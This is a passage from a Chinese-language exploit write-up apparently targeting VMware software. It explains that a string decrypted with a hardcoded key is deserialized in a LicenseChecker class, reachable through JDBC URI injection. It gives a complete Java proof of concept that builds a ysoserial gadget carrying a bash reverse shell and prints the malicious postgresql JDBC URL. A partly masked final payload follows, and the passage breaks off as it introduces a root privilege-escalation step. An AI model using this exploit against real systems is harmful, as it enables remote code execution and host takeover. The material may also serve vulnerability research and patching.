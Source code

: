 在这里先进行调用decrypt，并使用硬编码密钥keyBytes_v2解密字符串，然后对可控字符串调用 readObject进行反序列化。所以这里是通过JDBC URI注入去打LicenseChecker类中的反序列化，poc如下：  
```
import com.vmware.licensecheck.LicenseChecker;
import com.vmware.licensecheck.LicenseHandle;
import com.vmware.licensecheck.MyBase64;
import ysoserial.payloads.ObjectPayload.Utils;
import java.lang.reflect.Field;
import java.net.URLEncoder;
import java.util.Hashtable;
import java.io.*;

public class Poc {
    public static void main(String[] args) throws Exception {
        String shell = MyBase64.encode("bash -c \"bash -i >& /dev/tcp/10.0.0.1/1234 0>&1\"".getBytes());
        Object payload = Utils.makePayloadObject("CommonsBeanutils1", String.format("sh -c $@|sh . echo echo %s|base64 -d|bash", shell));
        LicenseChecker lc = new LicenseChecker(null);
        Field handleField = LicenseChecker.class.getDeclaredField("_handle");
        handleField.setAccessible(true);
        LicenseHandle lh = (LicenseHandle)handleField.get(lc);
        Field htEvalStartField = LicenseHandle.class.getDeclaredField("_htEvalStart");
        htEvalStartField.setAccessible(true);
        Field isDirtyField = LicenseHandle.class.getDeclaredField("_isDirty");
        isDirtyField.setAccessible(true);
        Hashtable<Integer, Object> ht = new Hashtable<Integer, Object>();
        ht.put(1337, payload);
        htEvalStartField.set(lh, ht);
        isDirtyField.set(lh, true);
        handleField.set(lc, lh);
        String payload = URLEncoder.encode(URLEncoder.encode(lc.getState(), "UTF-8"), "UTF-8");
        System.out.println(String.format("(+) jdbc:postgresql://si/saas?socketFactory=com.vmware.licensecheck.LicenseChecker%%26socketFactoryArg=%s", payload));
    }
}

```  
  
最终paylaod：  
  
jdbc:postgresql://si/saas?socketFactory=com.vmware.licensecheck.LicenseChecker%26socketFactoryArg=yv7a3gAACwQAxxxxxxxxxx  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRcIo3zjtulicBH0zX1gHBH4Gbciat3UYVoZicGuO47eWNYmOEvAkTAnuIsFJ4ibuxj7LEr0wD9s5Iwxg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRcIo3zjtulicBH0zX1gHBH4JPyfQWlmL4ic2ATfQ7Ga9nODsHFIdo7fZL2P1LibbaB2VLvsl5z0oBYw/640?wx_fmt=png "")  
  
  
  
**3.提权**  
  
****  
在前文已经讲过，利用publishCaCert.hzn和gatherConfig.hzn 脚本中的代码可以进行对具有root权限的文件进行覆盖重写，进而进行提权，poc如下：  
  